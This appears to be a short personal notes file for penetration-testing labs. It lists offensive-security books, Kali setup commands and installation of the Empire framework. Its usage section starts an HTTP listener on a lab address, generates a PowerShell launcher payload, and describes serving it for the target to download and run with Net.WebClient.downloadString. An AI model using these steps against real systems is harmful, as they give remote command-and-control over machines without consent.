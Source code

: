 # To read

- Kali Revealed
- The Hacker Playbook 2
- No Starch Metasploit
- Smashing The Stack For Fun And Profit
- The Shellcoder’s Handbook
- Violent Python
- The Web Application Hacker's Handbook

## Kali on VirtualBox
```
apt-get upgrade
apt-get dist-upgrade
apt-get install -y virtualbox-guest-x11
install guest additions # see picture
```

# Tools

## Firefox ESR + FoxyProxy + Burps
Install version 4.6.5 that can run on Firefox ESR v52.5.0 (32-bit) using it with Burp v1.7.27

## Empire
[Empire github](https://github.com/EmpireProject/Empire/tree/dev)
### Setup
```
git clone https://github.com/EmpireProject/Empire -b dev # Clone the dev branch
cd Empire/setup
./install/sh
./empire.sh
```
### Usage
```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.22:443
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'http'
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher powershell http # this generates the payload
```
Copy the payload output and paste it into a file that you'll serve with `SimpleHTTPServer` and get from the box using `Net.WebClient.downloadString` for example.

